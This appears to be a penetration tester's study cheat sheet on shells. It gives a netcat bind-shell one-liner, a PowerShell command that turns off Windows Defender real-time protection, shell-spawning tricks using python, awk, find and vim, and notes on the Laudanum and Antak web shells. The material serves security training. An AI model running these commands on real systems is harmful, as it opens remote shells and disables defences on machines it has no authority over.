 # <mark class="hltr-pink">Shell Basics</mark>
## <mark class="hltr-cyan">Bind Shells</mark>

![[Pasted image 20240805180817.png]]

### <mark class="hltr-orange">Server - Binding a Bash shell to the TCP session</mark>

```shell-session
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

## <mark class="hltr-cyan">Reverse Shells</mark>

![[Pasted image 20240805182314.png]]

### <mark class="hltr-orange">Windows Disable AV</mark>

If you already have administrative privileges over a windows machine, and you want to establish a reverse shell but the Windows Defender antivirus (AV) gets in the way you can disable it by running powershell an an admin and running this command:

```powershell-session
Set-MpPreference -DisableRealtimeMonitoring $true
```

# <mark class="hltr-pink">NIX Shells</mark>
## <mark class="hltr-cyan">Spawning interactive shells</mark>

- Python
```
python3 -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
CTRL-z
stty raw -echo; fg
```

- Bash
```
/bin/sh -i
```
or
```
/bin/bash -i
```

- Perl
```shell-session
perl —e 'exec "/bin/sh";'
```
- Perl (inside a perl shell)
```shell-session
exec "/bin/sh";
```

- Ruby (inside a ruby shell)
```shell-session
exec "/bin/sh"
```

- Lua (inside a lua shell)
```shell-session
os.execute('/bin/sh')
```

- AWK
```shell-session
awk 'BEGIN {system("/bin/sh")}'
```

- Using find for a shell
```shell-session
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```

- Using exec to launch a shell
```shell-session
find . -exec /bin/sh \; -quit
```

- vim to shell
```shell-session
vim -c ':!/bin/sh'
```

- inside vim
```shell-session
vim
:set shell=/bin/sh
:shell
```
or
```
vim
:terminal
```

# <mark class="hltr-pink">Web Shells</mark>
## <mark class="hltr-cyan">Laudanum</mark>

Laudanum is a repository of ready-made files that can be used to inject onto a victim and receive back access via a reverse shell, run commands on the victim host right from the browser, and more. The repo includes injectable files for many different web application languages to include `asp, aspx, jsp, php,` and more.

Laudanum files are found in `/usr/share/laudanum`.

### <mark class="hltr-orange">Laudanum ASPX Web Shell</mark>

Make sure to edit the shell file (add your IP)

![[Pasted image 20240808180102.png]]

## <mark class="hltr-cyan">Antak Webshell</mark>

Antak is a web shell built-in ASP.Net included within the [Nishang project](https://github.com/samratashok/nishang).

Antak utilizes PowerShell to interact with the host, making it great for acquiring a web shell on a Windows server.

The Antak files can be found in the `/usr/share/nishang/Antak-WebShell` directory.

Antak web shell functions like a Powershell Console. However, it will execute each command as a new process. It can also execute scripts in memory and encode commands you send. As a web shell, Antak is a pretty powerful tool.

Modify the shell file (changer username and passwd)

![[Pasted image 20240808180151.png]]

